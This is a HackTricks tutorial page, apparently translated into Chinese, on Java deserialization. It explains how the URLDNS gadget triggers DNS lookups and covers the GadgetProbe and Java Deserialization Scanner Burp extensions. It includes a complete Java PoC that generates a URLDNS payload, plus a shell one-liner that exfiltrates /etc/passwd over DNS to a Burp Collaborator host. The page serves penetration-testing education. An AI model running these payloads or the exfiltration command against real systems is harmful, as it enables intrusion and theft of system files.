


Java DNS Deserialization, GadgetProbe and Java Deserialization Scanner
{% hint style="success" %}
学习与实践 AWS 黑客技术： HackTricks 培训 AWS 红队专家 (ARTE)
HackTricks 培训 AWS 红队专家 (ARTE)
学习与实践 GCP 黑客技术： HackTricks 培训 GCP 红队专家 (GRTE)
HackTricks 培训 GCP 红队专家 (GRTE)
支持 HackTricks
- 查看 订阅计划!
- 加入 💬 Discord 群组 或 Telegram 群组 或 关注 我们的 Twitter 🐦 @hacktricks_live.
- 通过向 HackTricks 和 HackTricks Cloud GitHub 仓库提交 PR 分享黑客技巧。
DNS 请求在反序列化中
类 java.net.URL 实现了 Serializable，这意味着该类可以被序列化。
public final class URL implements java.io.Serializable {
这个类有一个奇怪的行为。根据文档：“如果两个主机名可以解析为相同的IP地址，则这两个主机被视为等效”。
因此，每当一个URL对象调用任何的函数equals或hashCode时，都会发送一个DNS请求以获取IP地址。
从一个URL对象调用函数**hashCode非常简单，只需将该对象插入一个将要被反序列化的HashMap中即可。这是因为在HashMap的readObject函数的最后**，会执行以下代码：
private void readObject(java.io.ObjectInputStream s)
throws IOException, ClassNotFoundException {
[ ... ]
for (int i = 0; i < mappings; i++) {
[ ... ]
putVal(hash(key), key, value, false, false);
}
它将执行 putVal，使用 HashMap 中的每个值。但更相关的是对每个值的 hash 调用。这是 hash 函数的代码：
static final int hash(Object key) {
int h;
return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
如您所见，在反序列化一个**HashMap时，函数hash将会对每个对象执行**，并且在hash执行期间将会执行对象的.hashCode()。因此，如果您反序列化一个包含URL对象的HashMap，该URL对象将会执行**.hashCode()。
现在，让我们来看一下URLObject.hashCode()的代码：
public synchronized int hashCode() {
if (hashCode != -1)
return hashCode;
hashCode = handler.hashCode(this);
return hashCode;
如您所见，当 URLObject 执行 .hashCode() 时，它被称为 hashCode(this)。接下来，您可以看到此函数的代码：
protected int hashCode(URL u) {
int h = 0;
// Generate the protocol part.
String protocol = u.getProtocol();
if (protocol != null)
h += protocol.hashCode();
// Generate the host part.
InetAddress addr = getHostAddress(u);
[ ... ]
您可以看到对域名执行了 getHostAddress，发起了 DNS 查询。
因此，这个类可以被滥用以发起一个DNS 查询来证明****反序列化是可能的，甚至可以外泄信息（您可以将命令执行的输出作为子域名附加）。
URLDNS 负载代码示例
您可以在这里找到 URDNS 负载代码来自 ysoserial。但是，为了更容易理解如何编码，我创建了我自己的 PoC（基于 ysoserial 的那个）：
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.InetAddress;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;
import java.net.URL;
public class URLDNS {
public static void GeneratePayload(Object instance, String file)
throws Exception {
//Serialize the constructed payload and write it to the file
File f = new File(file);
ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
out.writeObject(instance);
out.flush();
out.close();
}
public static void payloadTest(String file) throws Exception {
//Read the written payload and deserialize it
ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
Object obj = in.readObject();
System.out.println(obj);
in.close();
}
public static void main(final String[] args) throws Exception {
String url = "http://3tx71wjbze3ihjqej2tjw7284zapye.burpcollaborator.net";
HashMap ht = new HashMap(); // HashMap that will contain the URL
URLStreamHandler handler = new SilentURLStreamHandler();
URL u = new URL(null, url, handler); // URL to use as the Key
ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.
// During the put above, the URL's hashCode is calculated and cached.
// This resets that so the next time hashCode is called a DNS lookup will be triggered.
final Field field = u.getClass().getDeclaredField("hashCode");
field.setAccessible(true);
field.set(u, -1);
//Test the payloads
GeneratePayload(ht, "C:\\Users\\Public\\payload.serial");
}
}
class SilentURLStreamHandler extends URLStreamHandler {
protected URLConnection openConnection(URL u) throws IOException {
return null;
}
protected synchronized InetAddress getHostAddress(URL u) {
return null;
}
}
更多信息
- https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/
- 在最初的想法中，commons collections 负载被更改为执行 DNS 查询，这比提议的方法不太可靠，但这是文章：https://www.gosecure.net/blog/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/
GadgetProbe
您可以从 Burp Suite 应用商店（Extender）下载 GadgetProbe。
GadgetProbe 将尝试确定服务器的 Java 类中是否存在某些 Java 类，以便您可以知道 是否 它 易受 某些已知漏洞的攻击。
它是如何工作的
GadgetProbe 将使用上一节的 DNS 负载，但在运行 DNS 查询之前，它将 尝试反序列化一个任意类。如果 任意类存在，则 DNS 查询 将被 发送，GadgetProbe 将记录该类存在。如果 DNS 请求 从未发送，这意味着 任意类未成功反序列化，因此它要么不存在，要么 不可序列化/不可利用。
在 GitHub 中， GadgetProbe 有一些字典 用于测试的 Java 类。
%20(1).gif)
更多信息
Java 反序列化扫描仪
该扫描仪可以从 Burp 应用商店（Extender）下载。
该 扩展 具有 被动 和 主动 功能。
被动
默认情况下，它会 被动检查 所有请求和响应，寻找 Java 序列化魔术字节，如果发现任何，将呈现漏洞警告：
.png)
主动
手动测试
您可以选择一个请求，右键单击并选择 Send request to DS - Manual Testing。
然后，在 Deserialization Scanner Tab --> Manual testing tab 中，您可以选择 插入点。并 启动测试（根据使用的编码选择适当的攻击）。

即使这被称为“手动测试”，它也相当 自动化。它将自动检查 反序列化 是否 易受 任何 ysoserial 负载 的攻击，检查 Web 服务器上存在的库，并突出显示易受攻击的库。为了 检查 易受攻击的库，您可以选择启动 Javas Sleeps、通过 CPU 消耗的 sleeps，或使用 DNS，正如之前提到的那样。
利用
一旦您识别出一个易受攻击的库，您可以将请求发送到 Exploiting Tab。
在此选项卡中，您必须再次 选择 注入点，并 写入 您想要为其创建负载的 易受攻击库 和 命令。然后，只需按下适当的 攻击 按钮。

Java 反序列化 DNS 外泄信息
使您的负载执行类似以下内容：
(i=0;tar zcf - /etc/passwd | xxd -p -c 31 | while read line; do host $line.$i.cl1k22spvdzcxdenxt5onx5id9je73.burpcollaborator.net;i=$((i+1)); done)
更多信息
{% hint style="success" %}
学习与实践 AWS Hacking：HackTricks Training AWS Red Team Expert (ARTE)
学习与实践 GCP Hacking：HackTricks Training GCP Red Team Expert (GRTE)
支持 HackTricks
- 查看 订阅计划!
- 加入 💬 Discord 群组 或 telegram 群组 或 关注 我们的 Twitter 🐦 @hacktricks_live.
- 通过向 HackTricks 和 HackTricks Cloud github 仓库提交 PR 来分享黑客技巧。